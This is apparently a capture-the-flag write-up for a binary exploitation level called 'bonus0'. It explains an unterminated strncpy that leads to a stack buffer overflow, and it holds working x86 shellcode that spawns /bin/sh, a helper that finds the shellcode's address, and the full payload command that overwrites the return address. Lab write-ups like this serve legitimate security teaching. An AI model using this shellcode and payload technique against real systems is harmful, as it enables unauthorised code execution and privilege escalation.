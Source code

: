 looking at the code (see source.c) we can see that the program is vulnerable to a buffer overflow attack (like always).
it copy stdin into a buffer of 20 char using strncpy(dest, src, 20), but if src is greater than 20 bytes it will not be \0 terminated,
it means strcpy will read input1 AND input2 into the buffer since input1 doesn't have a end.

the main buffer of 54 bytes will overflow:
input1(20) + input2(20) + space(1) + input2(20) = 61 bytes
we will find the offset to overflow using https://wiremask.eu/tools/buffer-overflow-pattern-generator/ and gdb.
the tools tells us the offset it at 9 bytes.
so we need to put the address of our shellcode at the 9th byte of input2, that will write over the return address of the stack frame.

we will put the shellcode (from https://shell-storm.org/shellcode/files/shellcode-906.html) into a environment variable:
`export code=$(python -c "print('\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80')")`

getting the address of the shellcode:

```c
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char **argv) {
  printf("%p\n", getenv(argv[1]));
}
```

`./a.out code` -> `0xbffff916`

4096 because of the read() syscall that read 4096 bytes from stdin for input1.
full payload:
`python -c "print 'i'*4095 + '\n' + 'i'*9 + '\x16\xf9\xff\xbf' + 'i'*7" > /tmp/a`
`cat /tmp/a - |./bonus0`
